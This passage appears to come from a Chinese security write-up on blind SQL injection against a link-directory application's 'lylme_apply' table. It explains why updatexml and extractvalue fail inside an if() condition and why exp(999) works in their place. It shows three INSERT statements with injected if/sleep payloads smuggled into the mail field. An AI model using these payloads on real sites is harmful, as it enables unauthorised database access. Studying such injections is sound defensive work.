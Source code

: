 [![](assets/1701606448-7a35c96817332fd73012fd7b691f63e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135311-3fbf0446-8ce9-1.png)

## 巧妙利用报错特性

  那么有没有办法，让他判断不等于的时候，让`if`的第二个条件出错呢？这里又涉及到一个很巧的 trick，报错很多人第一时间想的是`updatexml`、`extractvalue`这些非常经典的报错语句，但是这个由于执行顺序不同，会比`if`优先执行报错，这样子无论正确与否都会导致错误，没办法做区分，这个时候就可以用到`exp(999)`来绕过这个限制

```bash
# extractvalue
 INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),extractvalue(1,user()))>'', '2023-10-07 22:14:25', '0');

 # updatexml
 INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),updatexml(1,user(),0))>'', '2023-10-07 22:14:25', '0');

# exp(999)
INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),exp(999))>'', '2023-10-07 22:14:25', '0');
```
